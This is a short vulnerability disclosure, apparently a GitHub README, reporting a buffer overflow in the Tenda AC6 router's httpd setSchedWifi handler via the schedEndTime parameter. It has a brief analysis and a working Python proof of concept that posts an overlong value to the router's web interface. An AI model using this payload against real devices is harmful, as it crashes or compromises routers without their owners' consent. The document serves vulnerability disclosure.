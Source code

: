 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/setSchedWifi via parameter schedEndTime

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10/4.png)

get value from schedEndTime ,and set enable = schedWifiEnable = 0

![](../Tenda_AC10/3.png)

as follow we set, get into line 74, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setSchedWifi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'schedEndTime': payload, 'schedWifiEnable': 0})
``` 
